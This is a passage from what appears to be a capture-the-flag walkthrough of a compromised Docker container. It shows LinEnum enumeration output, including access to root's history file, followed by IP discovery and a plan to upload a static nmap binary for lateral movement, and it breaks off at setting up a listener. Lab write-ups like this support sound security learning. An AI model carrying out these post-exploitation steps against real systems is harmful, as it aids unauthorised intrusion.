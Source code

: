 Then navigate to the installed directory and run

```bash
bash LinEnum.sh

result:
[-] Current user's history files:
-rw------- 1 root root 461 Dec  2 22:13 /root/.bash_history

[+] Root's history files are accessible!
-rw------- 1 root root 461 Dec  2 22:13 /root/.bash_history

[-] Location and Permissions (if accessible) of .bak file(s):
-rw-rw-r-- 1 root staff 7141 Feb 26  2018 /usr/local/lib/node_modules/npm/node_modules/request/node_modules/form-data/README.md.bak
-rw-r--r-- 1 root root 7138 Feb 13  2018 /node-red/node_modules/form-data/README.md.bak

[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x 2 root mail 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..

[+] Looks like we're in a Docker container:
12:cpuset:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
11:freezer:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
10:hugetlb:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
9:net_cls,net_prio:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
8:memory:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
7:devices:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
5:cpu,cpuacct:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
4:pids:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
3:perf_event:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
2:blkio:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
1:name=systemd:/docker/c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
0::/system.slice/docker.service
-rwxr-xr-x 1 root root 0 May  4  2018 /.dockerenv

```

It seems we are inside a docker. Checking the ip address of the shell we get

```bash
ip addr

result:
172.18.0.2/16
172.19.0.4/16
```

We can send a static nmap binary and try to find the other host. First locate static_nmap or download from here: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

Now start a listening port
